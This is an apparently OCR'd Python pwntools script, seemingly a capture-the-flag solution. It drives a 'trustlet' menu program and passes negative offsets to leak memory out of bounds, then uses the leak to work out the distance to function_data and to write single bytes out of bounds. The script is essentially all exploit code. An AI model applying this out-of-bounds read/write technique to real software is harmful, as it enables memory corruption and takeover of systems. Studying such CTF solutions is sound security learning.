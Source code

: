 ```python
    io = binary.process()

def set_t(t):
    sla("Provide command: ", str('l'))
    sla("Provide type of trustlet: ", str(t))


def g1(idx):
    sla("Provide command: ", str('c'))
    sla("Provide index of ms: ", str(idx))
    sla("Call type: ", str('g'))


def s1(idx, size, off, inp):
    sla("Provide command: ", str('c'))
    sla("Provide index of ms: ", str(idx))
    sla("Call type: ", str('s'))
    sla("Provide data size: ", str(size))
    sla("Provide data offset: ", str(off))
    s(str(inp))


def g0(idx, off, count):
    sla("Provide command: ", str('c'))
    sla("Provide index of ms: ", str(idx))
    sla("Call type: ", str('g'))
    sla("Provide page offset: ", str(off))
    sla("Provide page count: ", str(count))


def s0(idx):
    sla("Provide command: ", str('c'))
    sla("Provide index of ms: ", str(idx))
    sla("Call type: ", str('s'))


def write_val(off, val):
    s1(1, 1, (-(offset * 0x400) - (0x8000 - off)), chr(val))
    return ord(io.recv(1))


set_t(0)
set_t(1)

s1(1, 0x40, -0x8000000, "A" * 0x40)
g0(0, 0, 0x7fd8)

buf = io.recvuntil("\n")[:-1]
key = buf[:4]

log.info("key : " + hex(u32(key)))

offset = 0
for i in xrange(0, 0x7fd8 * 4, 4):
    if buf[i:i + 4] == key:
        continue
    else:
        offset = i
        break
log.info("Found : " + hex(offset))
log.info("Distance from function_data : " + hex(offset*0x400))

''' this while loop was for the one byte bruteforce'''
```